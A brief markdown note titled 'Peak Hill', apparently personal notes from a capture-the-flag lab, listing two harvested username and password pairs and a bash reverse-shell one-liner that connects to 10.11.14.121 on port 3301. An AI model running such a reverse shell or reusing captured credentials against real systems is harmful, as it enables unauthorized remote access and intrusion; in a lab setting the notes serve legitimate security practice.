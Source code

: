 # Peak Hill

username : gherkin
password : p1ckl3s_@11_@r0und_th3_w0rld

---
username : dill
password : n3v3r_@_d1ll_m0m3nt

```bash
bash -i >& /dev/tcp/10.11.14.121/3301 0>&1
```
